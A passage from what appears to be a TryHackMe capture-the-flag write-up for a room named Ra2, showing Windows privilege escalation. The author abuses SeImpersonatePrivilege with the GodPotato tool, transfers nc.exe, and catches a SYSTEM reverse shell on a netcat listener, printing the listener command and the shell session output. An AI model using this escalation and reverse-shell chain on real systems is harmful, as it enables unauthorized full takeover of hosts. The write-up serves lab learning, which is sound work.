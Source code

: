 I checked the privileges of this user and I got <mark style="background: #D2B3FFA6;">SeImpersonatePrivilege</mark> Enabled so lets exploit that , but first I need to check the windows version.


![Image](Pasted%20image%2020240309111330.png)
_Get-ComputerInfo command_

Since this system is `Windows Server 2019 Standard` with version as `1809` that means I can use <mark style="background: #FF5582A6;">GodPotato</mark> Tool over here ⏩
You can download this tool from here [GodPotato](https://github.com/BeichenDream/GodPotato) .

![Image](Pasted%20image%2020240309111530.png)
_GodPotato Tool_

Since this tool is working fine so lets transfer the nc.exe Tool and start the reverse shell as **<span style="color:#00ff91">nt Authority\System</span>** .

![Image](Pasted%20image%2020240309111903.png)
_Reverse Shell through GodPotato Tool_

I got the response like this 🔽

```powershell
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Ra2]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.75.200] from (UNKNOWN) [10.10.66.76] 57682
Microsoft Windows [Version 10.0.17763.1158]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami

C:\Windows\system32>echo %username%
echo %username%
FIRE$

C:\Windows\system32>hostname
hostname
Fire

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 84E1-0562
C:.
|   .sparkExt.properties
|   sip-communicator.properties
|   
+---.docker
|   \---application-template
|       \---logs
|               com.docker.backend.log
|               
+---3D Objects
+---Contacts
+---Desktop
|       Flag 3.txt
|       
+---Documents
|   |   Adusers.ps1
|   |   GetRandomUsers.ps1
|   |   
```